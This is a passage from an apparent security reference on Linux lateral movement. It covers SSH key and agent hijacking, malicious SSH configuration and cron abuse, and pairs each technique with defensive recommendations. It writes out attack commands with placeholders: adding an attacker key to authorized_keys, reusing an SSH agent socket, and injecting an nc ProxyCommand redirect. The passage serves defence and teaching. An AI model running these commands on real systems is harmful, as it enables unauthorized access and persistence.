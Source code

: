 echo "<attacker_public_key>" >> ~/.ssh/authorized_keys

SSH-Agent Hijacking (Extracting Keys):

bash

        export SSH_AUTH_SOCK=/tmp/ssh-<socket_file>
        ssh-add -l

    Recommendations:
        Regularly audit and rotate SSH keys.
        Enforce strict permissions on SSH key files and directories.
        Disable passwordless SSH access unless absolutely necessary.
        Use tools like fail2ban to block repeated unauthorized SSH login attempts.
        Implement multi-factor authentication (MFA) for SSH logins.

B. Exploiting SSH Configurations

Description: Poorly configured SSH settings, such as weak ciphers, disabled host key verification, or reused keys, can be exploited for lateral movement.

    Common Tools and Techniques:
        Reused SSH Keys: Using the same SSH key across multiple systems can allow attackers to move laterally if they compromise a single key.
        Abusing SSH Configuration Files: Modifying ~/.ssh/config to include malicious settings or redirects.

    Command Examples:

        Checking for Weak SSH Configuration:

        bash

grep -i 'passwordauthentication' /etc/ssh/sshd_config

Scanning for Reused SSH Keys Across the Network:

bash

ssh-keyscan -t rsa <target_IP> > scanned_keys

Modifying SSH Config for Malicious Redirection:

bash

        echo -e "Host *\n  ProxyCommand nc -X 5 -x <proxy_host>:<proxy_port> %h %p" >> ~/.ssh/config

    Recommendations:
        Enforce strong SSH configuration policies, including the use of strong ciphers and key exchange algorithms.
        Disable SSH root login and enforce the use of sudo for administrative actions.
        Use AllowUsers or AllowGroups directives to limit SSH access to specific users or groups.
        Regularly scan and audit SSH keys and configurations across all systems.

C. Abusing Cron Jobs and Systemd Timers

Description: Attackers can exploit cron jobs and systemd timers to execute commands on a regular schedule, providing opportunities for lateral movement and persistence.

    Common Tools and Techniques:
        Adding Malicious Cron Jobs: Creating or modifying cron jobs to execute malicious scripts.
        Systemd Timers: Abusing systemd service files and timers to run commands on a schedule.
